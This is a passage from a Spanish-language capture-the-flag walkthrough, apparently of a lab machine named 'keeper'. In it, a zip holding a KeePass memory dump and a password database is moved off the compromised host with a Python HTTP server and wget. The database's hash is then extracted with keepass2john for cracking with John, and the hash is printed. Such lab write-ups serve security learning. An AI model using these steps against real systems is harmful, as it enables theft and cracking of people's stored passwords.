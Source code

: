 - Tenemos un archivo `.zip` que parece bastante interesante, por lo que vamos a transferirlo a nuestra maquina atacante y analizamos el fichero con detalle

```bash
lnorgaard@keeper:~$ md5sum RT30000.zip 
c29f90dbb88d42ad2d38db2cb81eed21  RT30000.zip
lnorgaard@keeper:~$
lnorgaard@keeper:~$ which python3
/usr/bin/python3
lnorgaard@keeper:~$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

```bash
wget http://10.10.11.227:8081/RT30000.zip
--2024-10-29 13:26:53--  http://10.10.11.227:8081/RT30000.zip
Conectando con 10.10.11.227:8081... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 87391651 (83M) [application/zip]
Grabando a: «RT30000.zip»

RT30000.zip                                   100%[================================================================================================>]  83,34M  13,9MB/s    en 8,8s    

2024-10-29 13:27:02 (9,52 MB/s) - «RT30000.zip» guardado [87391651/87391651]

md5sum RT30000.zip
c29f90dbb88d42ad2d38db2cb81eed21  RT30000.zip
```

- Una vez transferido vamos a descomprimirlo a ver que contiene

```bash
unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
❯ ls -la
drwxr-xr-x root root  88 B  Tue Oct 29 13:29:17 2024  .
drwxr-xr-x root root  52 B  Tue Oct 29 13:26:26 2024  ..
.rwxr-x--- root root 242 MB Wed May 24 10:51:31 2023  KeePassDumpFull.dmp
.rwxr-x--- root root 3.5 KB Wed May 24 10:51:11 2023  passcodes.kdbx
.rw-r--r-- root root  83 MB Tue Oct 29 13:26:01 2024  RT30000.zip
```

- Como podemos ver el archivo contiene una base de datos `.kdbx` lo que significa que es un archivo de `keepass` que esta protegido por una `password`, lo primero que se me ocurre viendo esto es extraer el `hash` de dicho fichero e intentar crackearlo con el uso de la herramienta `John`, os voy adelantando que no va a funcionar debido a que la contraseña no esta dentro del diccionario, pero se haría de la siguiente forma por si os interesa saberlo.

```bash
❯ keepass2john passcodes.kdbx > hash
❯ cat hash
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622
       │ ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
